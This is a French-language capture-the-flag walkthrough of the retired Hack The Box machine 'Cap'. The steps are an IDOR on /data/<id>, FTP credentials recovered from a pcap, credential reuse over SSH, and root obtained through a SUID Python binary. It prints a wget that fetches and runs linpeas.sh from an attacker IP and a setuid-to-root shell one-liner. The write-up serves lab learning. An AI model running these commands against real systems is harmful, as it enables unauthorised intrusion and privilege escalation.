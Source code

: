 # Cap (HTB - Retired - Easy)
**Date :** 07/05/2025  
**Catégorie :** IDOR, FTP credentials, SUID Python PrivEsc  
**Difficulté :** Easy  
**Objectif :** Obtenir les flags `user.txt` et `root.txt`

---

## Nmap

```bash
nmap -Pn -sV nmap.txt 10.10.11.XXX
```

![Nmap results](./nmap_cap.png)

Résultat :
21/tcp - FTP

22/tcp - SSH

80/tcp - HTTP

## Enum Web
Sur le port 80, on accède à un site affichant un dashboard, avec plusieurs onglets, dont un nommé Security Snapshot.
L’URL lors de la consultation d’un rapport ressemble à :
http://10.10.11.XXX/data/0

## IDOR (Insecure Direct Object Reference)
Changement de la valeur dans l’URL (/data/1, /data/2, etc.) permet de télécharger différents fichiers .pcap.
On télécharge ceux qui semblent intéressants et on les ouvre avec Wireshark.
## Analyse de fichier PCAP
Dans le fichier correspondant à /data/0, on observe des transferts FTP en clair, et on identifie :
Nom d’utilisateur FTP


Mot de passe FTP


(Le tout visible dans les paquets FTP Request et FTP Response.)

![Wireshark](./cap_wireshark.png)

## Accès FTP & SSH
Connexion au serveur FTP :
```bash
ftp 10.10.11.XXX
```

Les identifiants FTP fonctionnent également pour se connecter en SSH :
```bash
ssh user@10.10.11.XXX
```
Flag user.txt trouvé dans le répertoire home.

![FTP](./co_ftp.png)



![Userflag and linpeas import](./cap_user_linpeas.png)


## Escalade de privilèges
Upload de linpeas.sh pour l’analyse locale :
### Sur la machine attaquante
```bash
python3 -m http.server 8000
```

### Sur la cible
```bash
wget http://<attacker_ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## SUID Python trouvé :
```bash
-rwsr-xr-x 1 root root 3700736 Jul  7  2021 /usr/bin/python3.8
```

## Exploitation SUID Python
Lancement de Python avec élévation des privilèges :
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

On obtient un shell root, puis :
```bash
cat /root/root.txt
```

## 🛠️ Résumé des étapes

| Étape                | Technique                          |
|----------------------|------------------------------------|
| Initial Access       | IDOR via `/data/<id>`              |
| Credential Access    | Analyse de `.pcap` → FTP creds     |
| Lateral Movement     | Reuse FTP creds → SSH              |
| Privilege Escalation | SUID Python 3.8 → root shell       |

